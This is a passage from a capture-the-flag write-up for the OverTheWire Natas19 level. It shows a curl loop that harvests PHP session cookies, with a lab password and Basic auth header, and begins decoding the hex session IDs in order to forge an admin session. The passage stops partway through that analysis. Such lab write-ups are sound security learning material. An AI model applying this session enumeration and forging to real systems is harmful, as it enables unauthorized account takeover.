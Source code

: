 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

## Natas19

```html
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...

Please login with your admin account to retrieve credentials for natas20.
``` 

Lets bake some cookies.

```
for n in {0..1000}; do
    curl -v -s 'http://natas19.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' --data 'username=admin&password=password' 2>&1 | grep PHP
done

< Set-Cookie: PHPSESSID=312d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=312d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=332d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=342d61646d696e; path=/; HttpOnly
...
< Set-Cookie: PHPSESSID=3633352d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=3633352d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=3633372d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=3633382d61646d696e; path=/; HttpOnly
```


And lets get all the unique PHPSESSID's and sort them.

```
312d61646d696e
332d61646d696e
342d61646d696e
352d61646d696e
...
3633372d61646d696e
3633382d61646d696e
3633392d61646d696e
3634302d61646d696e
```


Looks like there is a fixed value and a variable value in the PHPSESSID 
```
XX     + 2d61646d696e
XXXX   + 2d61646d696e
XXXXXX + 2d61646d696e
```

The unfixed value is always 2 4 or 6 chars long.
ASCII in HEX is 2 chars log. Let check that.
